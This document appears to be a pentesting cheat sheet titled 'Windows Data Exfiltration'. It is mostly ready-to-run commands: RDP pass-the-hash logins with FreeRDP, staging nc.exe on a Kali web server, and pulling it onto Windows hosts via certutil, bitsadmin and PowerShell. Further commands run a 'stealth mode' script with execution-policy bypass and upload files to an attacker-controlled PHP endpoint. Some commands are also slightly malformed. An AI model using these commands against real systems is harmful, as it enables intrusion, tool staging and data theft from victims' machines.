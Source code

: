 # Windows Data Exfiltration

* Use kali linux NC windows binary
* Locate file transfer utilities on Windows systems
* File copy to/from anonymous samba share with copy
* Download a file using certutil
* Download a file using bitsadmin
* Download a file with PowerShell
* Upload a file with PowerShell

## FreeRDP - A Free Remote Desktop Protocol

* +clipboard
* +auto-reconnect
* /cert:ignore
* /dynamic-resolution
* /v: server
* /pth: pass-the hash NTLM
* /list-kbd show avaliable keyboards

```bash

xfreerdp3 +clipboard +auto-reconnect /u:DOMAIN\\user /p:password /v:remote-ip
xfreerdp3 /list:kbd

# RDP User/Password
xfreerdp3 /u:user /v:ip /p:password /kbd:0x00010407 /dynamic-resolution +auto-reconnect +clipboard
# RDP NTLM Pass-the-hash 
xfreerdp3 /u:user /v:ip /pth:hidden /kbd:0x00010407 /dynamic-resolution +auto-reconnect +clipboard
 
```

## Use Kali Linux NC windows-binary

```bash
sudo apt install windows-binaries
ll /usr/share/windows-binaries/
windows-binaries -h
```

```bash
sudo cp /usr/share/windows-binaries/nc.exe /var/www/html/
```

## Window file copy to and from anonymous samba share

```shells
# upload and download
copy .\path\to\file \\REMOTE-IP\share\upload
copy \\REMOTE-IP\share\download copy .\path\to\file
```

## Download a file using certutil

* We can also use this to download remote files.
* But: Certutil is blocked by Windows Security Antivirus rules.
* -urlcache
* -f file url

```powershell
C:\Users\user> cd Downloads
certutil -urlcache -split -f http://kali-ip/nc.exe nc.exe
```

## Downlaod a file using bitsadmin

```powershell
bitsadmin /create DownloadJob
bitsadmin /addfile DownloadJob http://kali-ip/nc.exe C:\Users\user\Downloads\nc.exe
bitsadmin /resume DownloadJob
bitsadmin /complete DownloadJob
bitsadmin /info DownloadJob /verbose
```

## Downlaod a file using powershell

```powershell
(New-Object Net.WebClient).DownloadFile('http://remote-ip/nc.exe', 'nc.exe')

wget http://remote-ip/nc.exe -o nc.exe

Invoke-WebRequest -Uri 'http://remote-ip/nc.exe' -OutFile 'nc.exe'
Invoke-WebRequest -Uri 'http://remote-ip/nc.exe' -OutFile 'nc.exe' -proxy "http://proxy.contoso.com:8080
```

## Downlaod a file using powershell script with stealth mode

* Bypass security policy and default profiel
* -ExecutionPolicy Bypass
* -NoProfile

* Stealth mode
* -NonInteractive
* -NoLogo

```powershell
type .\wget.ps1
$webclient = New-Object System.Net.WebClient
$url = "http://remote-ip/nc.exe"
$dst = "nc.exe"
$webclient.DownloadFile($url,$dst)

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File .\wget.ps1
```

## Upload File with powershell

* '$' must be escaped in bash scripts
* \$

```bash
cat psupload.php
<?php 
$uploaddir = '/var/www/html/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
if(move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile))
    echo "Upload done.";
else
    echo "Upload error!";
?>
```

```powershell
powershell $response=(New-Object Net.WebClient).UploadFile('http://remote-ip/psupload.php', '.\Upload.txt'); [Text.Encoding]::UTF8.GetString($response)
```
